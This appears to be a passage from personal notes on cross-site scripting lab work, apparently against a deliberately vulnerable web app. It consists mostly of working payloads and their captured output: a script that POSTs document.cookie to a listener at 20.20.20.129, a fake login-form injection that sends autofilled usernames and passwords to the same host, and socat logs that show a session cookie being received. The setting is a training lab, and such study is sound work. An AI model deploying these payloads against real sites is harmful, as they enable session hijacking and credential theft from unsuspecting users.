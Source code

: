 ```
2022/07/27 14:08:53 socat[213159] N listening on AF=2 0.0.0.0:80
2022/07/27 14:09:00 socat[213159] N accepting connection from AF=2 20.20.20.129:50996 on AF=2 20.20.20.129:80
2022/07/27 14:09:00 socat[213159] N forked off child process 213203
2022/07/27 14:09:00 socat[213159] N listening on AF=2 0.0.0.0:80
2022/07/27 14:09:00 socat[213203] N using stdout for reading and writing
2022/07/27 14:09:00 socat[213203] N starting data transfer loop with FDs [6,6] and [1,1]
GET /cool.jpg?output=security=low;%20PHPSESSID=ae2efb5757e6d8b6d9c1931b610819e5 HTTP/1.1
Host: 20.20.20.129
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://meta/
```
## another payload to steal cookies (from portswigger labs) using POST
```html
<script>fetch('http://20.20.20.129', {method: 'POST',mode: 'no-cors',body:document.cookie});</script>
```
### output: Much cleaner :D
```
2022/07/27 15:47:54 socat[249716] N listening on AF=2 0.0.0.0:80
2022/07/27 15:48:35 socat[249716] N accepting connection from AF=2 20.20.20.129:53706 on AF=2 20.20.20.129:80
2022/07/27 15:48:35 socat[249716] N forked off child process 249964
2022/07/27 15:48:35 socat[249716] N listening on AF=2 0.0.0.0:80
2022/07/27 15:48:35 socat[249964] N using stdout for reading and writing
2022/07/27 15:48:35 socat[249964] N starting data transfer loop with FDs [6,6] and [1,1]
POST / HTTP/1.1
Host: 20.20.20.129
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://meta/
Content-Type: text/plain;charset=UTF-8
Origin: http://meta
Content-Length: 56
Connection: close

security=low; PHPSESSID=ae2efb5757e6d8b6d9c1931b610819e5
```

---

## XSS to steal username/password
### payload:
```html
<input name=username id=username><input type=password name=password onchange="if(this.value.length)fetch('http://20.20.20.129',{method:'POST',mode: 'no-cors',body:username.value+':'+this.value});">
```
anyone who views the comments will see a login form. if his browser autofills the username and password fields, they would be posted to the url included in the payload
### output:
```
2022/07/27 15:58:01 socat[253401] N listening on AF=2 0.0.0.0:80
2022/07/27 15:58:11 socat[253401] N accepting connection from AF=2 20.20.20.129:46510 on AF=2 20.20.20.129:80
```